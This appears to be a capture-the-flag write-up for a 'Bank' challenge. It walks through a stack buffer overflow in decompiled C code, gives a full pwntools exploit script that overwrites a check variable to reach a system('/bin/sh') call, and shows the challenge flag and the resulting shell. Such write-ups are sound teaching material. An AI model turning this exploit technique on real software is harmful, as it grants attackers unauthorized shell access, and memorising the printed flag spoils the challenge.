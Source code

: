 # [__💲 Bank 💲__](#)

## Description: 

* You need to access some secret files inside the bank's server. Bypass the authentication and read the secret file.

## Objective: 

* Take advantage of *Bof* to overwrite the value of `check` and call `secret()`.

## Flag: :black_flag:
* `INSSEC{b4nk_4uth3nt1c4t10n_syst3m_f41l3d!}`

### Difficulty:
* Easy

## Challenge:

The interface looks like this:

```console
[*] Authentication required!
1. Insert credentials.
2. Leave.
> 1

Password: 
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

[-] Wrong password!
[1]    84420 segmentation fault (core dumped)  ./bank
```

As we can see, there is a `SegFault` after some "A"s. That means there is a possible *BufferOverflow*.

We run a `checksec` to verify this:

```sh
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

**Canary** is disabled, so *Bof* will be even easier now.

Let's open a disassembler to analyze the program.

### Disassembly 

We start from `main()`:

```c
undefined8 main(void)

{
  int local_c;
  
  setup();
  local_c = 0;
  printf("\x1b[1;36m");
  printstr("\n[*] Authentication required!\n1. Insert credentials.\n2. Leave.\n> ");
  __isoc99_scanf(&DAT_00100c82,&local_c);
  if (local_c == 1) {
    bank();
  }
  else {
    printf("\x1b[1;31m");
  }
  printstr("\nExiting..\n");
  return 0;
}
```

We see that there is a call to `bank()`.

### bank()

```c
void bank(void)

{
  undefined local_38 [44];
  int local_c;
  
  local_c = -0x21524542;
  printf("\nPassword: \n> ");
  __isoc99_scanf(&DAT_00100c13,local_38);
  if (local_c == -0x35014111) {
    secret();
  }
  else {
    printf("\x1b[1;31m");
  }
  puts("\n[-] Wrong password!");
  return;
}
```

We see that there is a *bof* at `scanf`, that we can take advantage of. The buffer is 44 bytes and `scanf` reads unlimited bytes.

The variable `local_c` is after our buffer (`local_38`). That means if we fill the buffer with 44 bytes of junk, the next 8 bytes will overwrite `local_c`.

What we need to do:

* Overflow the buffer and change the value of `local_c` in order to call `secret`.

`secret()`:

```c
void secret(void)

{
  printf("\x1b[1;32m");
  printstr("\n[+] Congratulations!");
  puts(&DAT_00100bf6);
  system("/bin/sh");
  return;
}
```

### Exploit 📜

```python
#!/usr/bin/python3.8
from pwn import *

ip = '172.17.0.1' # change this
port = 1337 # change this
fname = './bank'

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

ru = lambda x : r.recvuntil(x)
sla = lambda x,y : r.sendlineafter(x,y)
inter = lambda : r.interactive()

def pwn():
	junk = b'i'*44
	payload = junk + p64(0xcafebeef)
	sla('>', '1')
	sla('>', payload)
	inter()

if __name__ == '__main__':
	pwn()
```

### PoC 🏁

```console
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] Switching to interactive mode
[+] Congratulations! 🎉
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag.txt
INSSEC{b4nk_4uth3nt1c4t10n_syst3m_f41l3d!}
```
